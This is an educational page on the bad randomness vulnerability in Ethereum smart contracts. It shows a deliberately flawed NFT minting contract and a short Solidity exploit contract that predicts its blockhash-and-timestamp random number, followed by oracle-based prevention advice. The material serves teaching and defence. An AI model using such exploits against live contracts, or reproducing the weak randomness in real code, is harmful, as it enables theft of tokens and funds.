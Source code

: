 ```yaml
---
title: Bad Randomness
displayed_sidebar: generalSidebar
keywords:
  - smart contracts
  - security
  - vulnerabilities
  - randomness
  - nft
  - gamefi
  - ethereum
  - solidity
  - pseudo-random
  - blockhash
  - keccak256
  - chainlink-vrf
tags:
  - Bad Randomness
  - Security
  - 智能合约
---
```


# Bad Randomness

## Pseudo-Random Numbers

Many applications on Ethereum, such as NFT random tokenId draws, blind box openings, and GameFi combat outcomes, rely on random numbers. However, since all data on Ethereum is public and deterministic, traditional random generation methods like `random()` are not available.

Instead, projects often use pseudo-random number generators such as `blockhash()` and `keccak256()`. This approach, known as the Bad Randomness Vulnerability, allows attackers to predict outcomes, enabling them to manipulate results like minting specific rare NFTs.

This vulnerability is common in NFT and GameFi projects, including Meebits, Loots, and Wolf Game. It has led to significant financial losses, such as the SmartBillions Lottery exploit where attackers used predictable outcomes to win over 400 ETH. More information is available in the article, [The Blockchain Lottery SmartBillions Was Hacked for $120,000](https://crypto.news/blockchain-lottery-smartbillions-hacked-for-120000/).

## Example of a Bad Randomness Vulnerability

Let's explore a vulnerable NFT contract, `FlawedRandomizer.sol`.

```solidity
contract FlawedRandomizer is ERC721 {
    uint256 public totalMints;

    // Constructor initializes the NFT collection's name and symbol.
    constructor() ERC721("", ""){}

    // Mint function: mints only when the input luckyNumber equals the random number.
    function mintIfLucky(uint256 guessedNumber) public {
        uint256 pseudoRandomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // Get pseudo-random number
        require(pseudoRandomNumber == guessedNumber, "Try again next time!");

        _mint(msg.sender, totalMints);
        totalMints++;
    }
}
```

The main function `mintIfLucky()` requires users to enter a number between `0-99`. If it matches the chain-generated pseudo-random number `pseudoRandomNumber`, they can mint a lucky NFT. The vulnerability lies in the ability of users to perfectly predict the generated random number and mint the NFT.

Let's write an attack contract `Exploit.sol`.

```solidity
contract Exploit {
    function executeMint(FlawedRandomizer nftAddress) public {
        // Calculate the random number in advance
        uint256 predictedNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Use predictedNumber to execute the attack
        nftAddress.mintIfLucky(predictedNumber);
    }
}
```

The function `executeMint()` takes a `FlawedRandomizer` contract address as a parameter. Here, we calculate the `predictedNumber` and then pass it to the `mintIfLucky()` function to execute the attack. Since both `executeMint()` and `mintIfLucky()` are called in the same block, the `blockhash` and `block.timestamp` are the same, making the generated random number predictable.

## Prevention Strategy

Use off-chain random numbers provided by oracle projects to prevent this type of vulnerability, such as Chainlink VRF. These random numbers are generated off-chain and uploaded to the blockchain, ensuring they are unpredictable.
